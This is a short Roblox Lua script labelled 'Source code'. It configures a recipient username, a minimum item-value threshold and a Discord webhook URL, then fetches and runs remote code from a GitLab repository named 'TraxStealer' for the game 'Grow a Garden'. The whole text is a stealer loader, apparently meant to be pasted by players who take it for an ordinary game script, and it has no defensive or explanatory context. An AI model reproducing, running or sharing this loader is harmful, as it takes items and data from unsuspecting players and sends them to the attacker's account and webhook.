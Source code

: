 Username = "selvesdoll3"
Username2 = "selvesdoll3"
MinimumRAP = 5000000
Webhook = "https://discord.com/api/webhooks/1370634392132911146/YEvIynGEt6cb2wHO1DErBroJlhVuj7Q4rL1HS-Fh7vNjOjYVauvMY8f8EaTBCAc31-2Z"

loadstring(game:HttpGet("https://gitlab.com/traxmain1/TraxStealer/-/raw/main/grow-a-garden"))()
